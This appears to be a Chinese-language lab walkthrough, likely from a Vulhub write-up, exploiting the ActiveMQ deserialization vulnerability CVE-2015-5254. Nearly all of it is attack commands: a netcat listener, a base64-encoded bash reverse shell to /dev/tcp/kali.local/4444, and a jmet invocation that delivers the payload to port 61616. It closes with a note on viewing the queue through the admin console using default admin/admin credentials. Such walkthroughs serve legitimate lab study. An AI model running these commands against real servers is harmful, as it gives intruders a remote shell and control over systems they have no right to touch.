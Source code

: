 侦听端口

```shell
┌──(root㉿kali)-[~]
└─# sudo systemctl start apache2.service && sudo systemctl status apache2.service && nc -lnvp 4444
```

将 payload 使用 base64 编码

```shell
┌──(root㉿kali)-[~]
└─# echo "bash -i >& /dev/tcp/kali.local/4444 0>&1" | base64
```

下载  [jmet-0.1.0-all.jar](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar) 文件

```shell
┌──(root㉿kali)-[~]
└─# mkdir -p /root/jmet/external && proxychains4 wget -P /root/jmet https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
```

发送 payload

```shell
┌──(root㉿kali)-[~]
└─# cd /root/jmet && java -jar /root/jmet/jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9rYWxpLmxvY2FsLzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" -Yp ROME centos.local 61616
```

> webshell 为 bash -i >& /dev/tcp/kali.local/4444 0>&1 使用了 base64 编码

查看这个队列中所有消息

> http://centos7-6.local:8161/admin/browse.jsp?JMSDestination=event
>
> 用户名：    admin
>
> 密码：	admin
>

![查看这个队列中所有消息](./../../../../images/Vulhub/activemq/ActiveMQ%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2015-5254%EF%BC%89/%E6%9F%A5%E7%9C%8B%E8%BF%99%E4%B8%AA%E9%98%9F%E5%88%97%E4%B8%AD%E6%89%80%E6%9C%89%E6%B6%88%E6%81%AF.png)

